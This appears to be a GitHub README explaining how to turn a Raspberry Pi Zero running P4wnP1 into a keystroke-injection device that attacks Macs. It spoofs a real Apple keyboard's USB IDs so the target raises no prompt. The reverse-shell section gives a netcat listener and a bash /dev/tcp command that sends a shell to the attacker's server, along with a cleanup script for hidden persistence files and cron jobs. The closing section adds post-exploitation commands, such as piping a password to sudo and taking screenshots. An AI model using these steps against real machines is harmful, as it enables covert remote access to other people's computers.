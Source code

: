 # Ducky Raspberry Pi Zero for Mac

There are some threads about P4wnP1 ducky not running on Mac but here is an introduction about setting up P4wnP1 so your pi zero can attack Mac.

## Demo Video

[![Brian Ducky Raspberry Pi Zero demo](https://img.youtube.com/vi/IrasdisNsJk/0.jpg)](https://www.youtube.com/watch?v=IrasdisNsJk)

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.

```
username: pi
password: raspberry
```

4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).

```shell
sudo raspi-config
```

6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)

```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```

7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.

```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](./payloads/hid_keyboard_hello_world.txt).

```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```

9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".

```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```

10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.

```shell
sudo shutdown -h now
```

11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.

```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.

```shell
nc -l -p 8080 -vvv
```

2. Create a descriptor on target machine. Make sure to change the IP address and port to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)

```shell
bash -i >& /dev/tcp/YOUR_SERVER_IP/8080 0>&1
```

3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.
4. In [payloads/](./payloads/) there is a reverse shell ducky script example. Here is the clean up script if you use my example.

```shell
rm ~/app_support.sh; rm /tmp/app_support.sh; rm ~/.ssh/rsa_pub_; rm ~/Library/.hidden/app_support.sh; rm ~/Library/Python3.65; rm /usr/local/bin/Python3.65;
echo "" | crontab - && crontab -r
```

## What Now

- Rick roll prank

```shell
# One privilege of hacking Mac is we have access to applescript.
osascript -e 'set volume 7'
open https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

- Accessing sudo privilege

```shell
echo "password" | sudo -S ls
```

- Take a screenshot

```shell
screencapture ~/a.jpg
```

- ~~Take a photo with Mac's webcam~~

Apparently, Apple has a very strong security and privacy. It's nearly impossible to control hardware like webcam or mic without really operating on the machine.

## Author and Contributors

- **[Brian Sung](https://github.com/ohbriansung)**
- Jordan Aldujaili
- Omar Sharif

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
1. [P4wnP1](https://github.com/mame82/P4wnP1/)
1. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
